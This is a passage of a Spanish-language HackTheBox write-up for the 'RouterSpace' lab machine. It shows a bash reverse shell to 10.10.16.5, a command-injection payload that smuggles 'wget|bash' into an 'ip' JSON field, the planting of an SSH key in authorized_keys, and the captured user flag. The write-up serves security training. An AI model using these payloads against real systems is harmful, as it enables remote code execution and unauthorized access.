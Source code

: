 Creo un archivo index.html que me envíe una reverse shell

```null
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.5/443 0>&1
```

Introduzo mi payload en el BurpSuite

```null
{"ip":"0.0.0.0; wget${IFS}10.10.16.5|bash"}
```

Pero la máquina cuenta con reglas de Firewall que me impiden ganar acceso. Pero puedo meter mi clave pública en las authorized_keys y conectarme por ssh

```null
cat ~/.ssh/id_rsa.pub | tr -d "\n" | base64 -w 0 | xclip -sel clip
```

<img src="/writeups/assets/img/Routerspace-htb/7.png" alt="">

Me conecto sin proporcionar contraseña

```null
sh paul@routerspace.htb
The authenticity of host 'routerspace.htb (10.10.11.148)' can't be established.
ED25519 key fingerprint is SHA256:iwHQgWKu/VDyjka2Y4j2V8P2Rk6K13HuNT4JTnITIDk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

paul@routerspace:~$ 
```

Puedo visualizar la primera flag

```null
paul@routerspace:~$ cat user.txt 
306ea8ccdb71778fe4432bc95960da66
```
